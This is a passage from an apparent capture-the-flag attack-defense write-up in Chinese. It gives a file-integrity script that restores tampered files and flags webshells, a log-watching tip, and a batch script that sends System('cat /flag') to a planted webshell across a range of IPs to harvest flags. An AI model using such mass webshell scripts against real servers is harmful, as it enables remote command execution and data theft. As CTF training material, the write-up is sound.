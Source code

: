 ```
        # 防止任意文件被修改,还原被修改文件
        md5_dict = getfilemd5dict(ORIGIN_FILE_LIST)
        for filekey in md5_dict:
            if md5_dict[filekey] != FILE_MD5_DICT[filekey]:
                try:
                    f = open(filekey, 'r').read()
                except Exception, e:
                    break
                if Special_string not in f:
                    try:
                        print u'[*] file had be change : ' + getUnicode(filekey)
                        shutil.move(filekey, os.path.join(Special_path['difffile'], ntpath.basename(filekey) + '.txt'))
                        shutil.move(os.path.join(Special_path['bak'], ntpath.basename(filekey)), filekey)
                    except Exception as e:
                        print u'[!] move webshell error, "%s" maybe is webshell.'%getUnicode(filekey)
                    try:
                        f = open(os.path.join(Special_path['log'], 'log.txt'), 'a')
                        f.write('diff_file: ' + getUnicode(filekey) + ' : ' + getUnicode(time.ctime()) + '\n')
                        f.close()
                    except Exception as e:
                        print u'[-] log error : done_diff: ' + getUnicode(filekey)
                        pass
        time.sleep(2)
        # print '[*] ' + getUnicode(time.ctime())
```

`日志分析`<br>
利用命令行，输入`tailf /var/log/apache2/access.log`<br>
查看日志文件，进行分析，观察攻击者是以哪个方式进行攻击的。

### <a class="reference-link" name="%E6%94%BB%E5%87%BB"></a>攻击

`批量得到flag脚本:`

```
#coding=utf-8
import requests
url_head="http://10.100.100."    #网段
shell_addr="/upload/url/shell.php" #木马路径
passwd="xiaoma"                    #木马密码
port=""
payload = `{`passwd: 'System(\'cat /flag\');'`}`

webshelllist=open("webshelllist.txt","w")
flag=open("flag.txt","w")

for i in range(130,160
):
    url=url_head+str(i)+":"+port+shell_addr
    try:
        res=requests.post(url,payload,timeout=1)
        if res.status_code == requests.codes.ok:
            result = url+" connect shell sucess,flag is "+res.text
            print (result)
            flag.write(result+"\n");
            print &gt;&gt;flag,result
            print &gt;&gt;webshelllist,url+","+passwd
        else:
            print ("shell 404")
```